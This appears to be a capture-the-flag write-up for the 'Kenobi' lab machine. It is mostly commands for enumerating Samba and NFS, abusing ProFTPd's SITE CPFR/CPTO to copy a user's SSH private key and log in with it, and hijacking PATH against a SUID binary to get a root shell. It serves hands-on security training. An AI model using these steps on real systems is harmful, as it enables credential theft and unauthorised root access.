




# Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

Set up environment IP as IP_Machine

```
export IP=10.10.184.151
```


## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?
	
	```
	nmap -sV $IP | tee nmap-scan.txt
	```

	File scan resulted [here](./file/nmap-scan.txt)

	

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?
	
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
	```  

	

* Once you're connected, list the files on the share. What is the file can you see?
	
	```
	smbclient //$IP/anonymous
	```

	

	Get the file [here](./files/log.txt)

	

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?
	
	```
	sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
	```  

	

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	```
	nc 10.10.65.169 21
	```

	

* How many exploits are there for the ProFTPd running?
	
	```
	searchsploit ProFtpd 1.3.5
	```

	


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	
	

* What is Kenobi's user flag (/home/kenobi/user.txt)?

	* Lets mount the /var/tmp directory to our machine
	
		```
		mkdir /tmp/KenobiNFS
		sudo mount $IP:/var /tmp/KenobiNFS
		ls -la /tmp/KenobiNFS
		```
		
		

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
	
		```
		cp /tmp/KenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@$IP
		```
		
		Get the file [here](./files/id_rsa)

		

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		```
		cat /home/kenobi/user.txt
		```

		

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	

* Run the binary, how many options appear?
	
	```
	/usr/bin/menu
	```

	

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	```
	strings /usr/bin/menu
	```

	

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.

	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	
